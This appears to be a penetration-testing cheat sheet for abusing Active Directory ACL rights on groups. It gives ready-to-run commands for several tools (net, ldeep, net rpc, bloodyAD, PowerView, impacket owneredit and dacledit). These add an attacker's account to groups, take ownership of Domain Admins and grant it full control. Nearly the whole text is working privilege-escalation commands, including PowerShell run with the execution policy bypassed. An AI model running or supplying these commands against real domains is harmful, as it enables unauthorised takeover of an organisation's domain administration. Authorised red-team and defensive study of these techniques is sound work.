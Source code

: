 # ACLs/ACEs permissions on Group

### Self (Self-Membership) on Group / GenericAll/WriteProperty on Group/ WriteProperty (Self-Membership)

#### 1) Add group member

    net group "GROUP" MY_USER /add /domain

#### 2) ldeep

    ldeep ldap -u USER -p PASSWORD -d DOMAIN -s ldap://DC add_to_group "CN=USER,DC=DOMAIN" "CN=GROUP,DC=DOMAIN"

#### 3) Linux Net RPC - Samba

    net rpc group addmem "GROUP" "USER" -U domain.local/USER%'Password@1' -S DC_IP

#### 4) BloodyAD

    bloodyAD --host "DC_IP" -d "domain.local" -u "USER" -p "Password@1" add groupMember "GROUP" "USER"

#### 5) Powerview

    powershell -ep bypass
    
    Import-Module .PowerView.ps1
    
    $SecPassword = ConvertTo-SecureString 'Password@1' -AsPlainText -Force
    
    $Cred = New-Object
    
    System.Management.Automation.PSCredential('domain.local\USER1', $SecPassword)
    
    Add-DomainGroupMember -Identity 'Domain Admins' -Members 'USER1' -Credential

    $Cred


### WriteOwner on Group

WriteDACL + WriteOwner. Give yourself Generic All with: owneredit.py and dacledit.py

#### 1) impacket-owneredit

Grant our user ownership of the Domain Admins group (example)

    impacket-owneredit -action write -new-owner 'USER1' -target-dn 'CN=Domain Admins,CN=Users,DC=domain,DC=local' 'domain.local'/'USER1':'Password@1' -dc-ip DC_IP

#### 2) impacket-dacledit

Grant our user Full Control of the Domain Admins group (example)

    impacket-dacledit -action 'write' -rights 'WriteMembers' -principal 'USER1' - target-dn 'CN=Domain Admins,CN=Users,DC=domain,DC=local' 'domain.local'/'USER1':'Password@1' -dc-ip DC_IP

#### 3) Linux Net RPC - Samba

    net rpc group addmem "Domain Admins" USER1 -U domain.local/USER1%'Password@1' -S DC_IP

#### 4) BloodyAD

    bloodyAD --host "DC_IP" -d "domain.local" -u "USER1" -p "Password@1" add groupMember "Domain Admins" "USER1"

#### 5) Powerview

Grant Ownership and Full Control

    powershell -ep bypass
    Import-Module .PowerView.ps1
    Set-DomainObjectOwner -Identity 'Domain Admins' -OwnerIdentity 'USER1'
    Add-DomainObjectAcl -Rights 'All' -TargetIdentity "Domain Admins" -PrincipalIdentity "USER1"

#### 6) Windows Net command

    net group "domain admins" USER1 /add /domain

